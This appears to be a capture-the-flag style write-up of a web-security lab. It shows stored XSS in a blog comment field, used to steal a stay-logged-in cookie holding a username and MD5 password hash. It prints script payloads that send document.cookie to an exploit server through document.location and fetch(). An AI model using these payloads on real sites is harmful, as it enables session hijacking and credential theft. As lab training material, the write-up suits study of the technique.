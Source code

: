 ![image](https://github.com/user-attachments/assets/a40ac017-527a-4c0f-a7d5-308af1f06afb)


Like in the previous lab, the lab uses a `stay-logged-in cookie`,Decode stay-logged-in cookie with base64 of above request as shown in below image

![image](https://github.com/user-attachments/assets/6e7902b3-47d9-488e-a928-7a89c47ffef8)

A quick check confirms that the hash represents the password in MD5 format.

Next, I proceeded to find the XSS vulnerability. The page allows users to write comments with four input fields: `comment`, `name`, `email`, and `website`.

I started by injecting basic test payloads in both the `comment` and `name` fields. The tests revealed that the `comment` field is vulnerable to XSS injection.

For example, injecting the following payload triggered the XSS:

```html
<script>alert(document.location)</script>
```


![image](https://github.com/user-attachments/assets/ca8c95df-f0ca-4dbd-92b3-876de9e75d43)

So can used stored XSS payload in the comment section,which will send request to  exploit server of website


```js
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
or we can used below payload

```html
<script>
fetch('https://exploit-0a8c008a03da770bc09ca69d015400e1.web-security-academy.net/' + document.cookie, {
  method: 'GET'
});
</script>
```

![image](https://github.com/user-attachments/assets/6aea3287-c32c-4fe5-af9e-743aed294ebb)


We can also used burp collabrator if not want to used exploit server

![image](https://github.com/user-attachments/assets/2cd39ff4-9932-4034-af24-2d8627b2b91c)


Sure enough, the server log reveals that someone that is not me looked at the page:

![image](https://github.com/user-attachments/assets/31fd73c7-e727-4073-9482-eae0d7eb1bad)

It is the base64 encoded form of user carlos and his MD5 hash of his password. - `carlos:26323c16d5f4dabff3bb136f2460a943`

